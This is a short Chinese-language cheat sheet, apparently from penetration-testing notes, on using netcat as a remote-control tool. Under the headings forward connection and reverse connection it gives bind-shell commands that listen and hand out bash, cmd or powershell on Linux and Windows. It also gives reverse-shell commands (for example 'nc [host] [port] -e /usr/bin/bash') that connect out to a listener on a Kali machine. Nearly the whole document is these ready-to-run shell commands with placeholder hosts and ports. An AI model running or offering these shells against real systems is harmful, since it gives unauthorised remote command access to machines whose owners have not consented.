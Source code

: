 远程控制工具。

# 1 正向连接

侦听端口，并在连接后开启终端

```shell
[root@centos7-6 ~]# nc -lnvp [port] -c bash
```

```shell
[root@centos7-6 ~]# nc -lnvp [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port] -e powershell
```

连接目标端口

```shell
┌──(root㉿kali-23)-[~]
└─# nc -nv [ip] [port]
```

```shell
┌──(root㉿kali-23)-[~]
└─# nc [host] [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -nv [ip] [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port]
```

# 2 反向链接

侦听端口

```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp [port]
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe -lvnp [port]
```

连接目标端口，并在连接后开启终端

```shell
[root@centos7-6 ~]# nc -nv [ip] [port] -c bash
```

```shell
[root@centos7-6 ~]# nc [host] [port] -e /usr/bin/bash
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e cmd
```

```powershell
PS C:\Users\Administrator> C:\path\nc.exe [host] [port] -e powershell
```

---

参考链接

- [Netcat](https://nc110.sourceforge.io/)
